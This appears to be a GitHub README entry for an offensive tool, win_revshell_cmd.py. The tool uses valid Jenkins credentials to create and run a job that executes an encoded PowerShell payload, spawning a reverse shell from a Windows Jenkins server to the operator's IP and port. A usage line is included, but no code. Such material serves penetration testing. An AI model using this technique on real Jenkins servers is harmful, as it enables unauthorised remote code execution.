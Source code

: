 ## win_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new "Freestyle project" JOB.\
![win_revshell_cmd_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_1.png)

Then configures or BUILD it to "Execute Windows batch command" with the **Powershell** encoded payload.
![win_revshell_cmd_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_cmd_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_3.png)
![win_revshell_cmd_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
